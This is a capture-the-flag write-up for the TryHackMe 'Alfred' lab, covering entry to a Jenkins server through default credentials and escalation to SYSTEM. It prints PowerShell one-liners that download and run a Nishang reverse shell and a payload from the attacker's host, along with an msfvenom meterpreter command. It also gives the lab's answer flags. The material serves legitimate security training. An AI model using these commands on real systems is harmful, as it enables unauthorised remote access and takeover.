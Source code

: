 **Room Link**: [https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)  
**Difficulty**: Easy 
**Platform**: Windows 
**Author**: Ry@n

---
## Overview

This room presents a Windows machine running Jenkins. The challenge includes exploiting Jenkins for initial access and escalating privileges via a misconfigured Windows service.

---
# Task 1: Initial Access
## 1. How many ports are open? (TCP only):
- Answer: 3
	- Because this machine does not respond to ping (ICMP) so we have to use this command : `nmap -sC -sV -Pn 10.201.99.33`
	![Pasted image 20250817002954](images/Pasted%20image%2020250817002954.png)
	- We have 3 TCP port open
## 2.What is the username and password for the login panel? (in the format username:password)
- Answer: admin:admin
	- To find the credential we have alot of ways(Hydra,burp suite,...), but of me i guess it in the first time :DDD
	![Pasted image 20250817003356](images/Pasted%20image%2020250817003356.png)
## 3.What is the user.txt flag?
- Answer: 79007a09481963edf2e1321abd9ae2a0
	- To find the flag we need a reverse shell in the machine, i will use nishang to get a reverse shell
	![Pasted image 20250817003720](images/Pasted%20image%2020250817003720.png)
	- Ok now we need to find a way to put a shell in the machine, luckily we have admin access on the Jenkins website
	![Pasted image 20250817004021](images/Pasted%20image%2020250817004021.png)
	- So now we can use this to make that happen, but remember to set up a python server and a listener
	![Pasted image 20250817004223](images/Pasted%20image%2020250817004223.png)
	![Pasted image 20250817004245](images/Pasted%20image%2020250817004245.png)
	- here is the config to make the server connect to our server so download the payload  
	`powershell iex (New-Object Net.WebClient).DownloadString('http://10.4.127.243:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.4.127.243 -Port 4444`
	![Pasted image 20250817004608](images/Pasted%20image%2020250817004608.png)
	- After hit build you should get a reverse shell back to your machine 
	![Pasted image 20250817004724](images/Pasted%20image%2020250817004724.png)
	![Pasted image 20250817004738](images/Pasted%20image%2020250817004738.png)
	- Now we have access to the system let find the flag
	![Pasted image 20250817004848](images/Pasted%20image%2020250817004848.png)
	- OK that is our flag
# Task 2: Switching Shells
## 1.What is the final size of the exe payload that you generated?
- Answer: 73802
	- To make the privilege escalation easier, let's switch to a meterpreter shell using metasspolit
	- Use msfvenom to create a Windows meterpreter reverse shell using the following payload:
		`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.4.127.243 LPORT=5555 -f exe -o payload.exe`
	![Pasted image 20250817005540](images/Pasted%20image%2020250817005540.png)
	- We can see that the size of the payload is 73802 bytes
	- Now we need to put the payload in the machine using the previous method
	![Pasted image 20250817010516](images/Pasted%20image%2020250817010516.png)
	- `powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://10.4.127.243:8080/payload.exe', 'payload.exe')"`
	- before use that payload on the machine make sure that you have a handler is set up in Metasploit
	![Pasted image 20250817010902](images/Pasted%20image%2020250817010902.png)
	- Now let execute the payload
	![Pasted image 20250817011044](images/Pasted%20image%2020250817011044.png)
	- You should have a shell spawn in 
	![Pasted image 20250817011125](images/Pasted%20image%2020250817011125.png)
# Task 3: Privilege Escalation
## 1.Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command?
- Answer:NT AUTHORITY\SYSTEM
	- first i use `getsystem` to attempt to escalate from the current user alfred\bruce to NT AUTHORITY\SYSTEM
	![Pasted image 20250817012233](images/Pasted%20image%2020250817012233.png)
	- This show that it was success
	- now i need to find a processes running under NT AUTHORITY\SYSTEM
	![Pasted image 20250817012349](images/Pasted%20image%2020250817012349.png)
	- Now i will migrate to process 668 to stabilize the session and Bypass user-level restrictions
	- Now we have root access
	![Pasted image 20250817012600](images/Pasted%20image%2020250817012600.png)
## 2.Read the root.txt file located at C:\Windows\System32\config
- Answer:��dff0f748678f280250f25a45b8046b4a

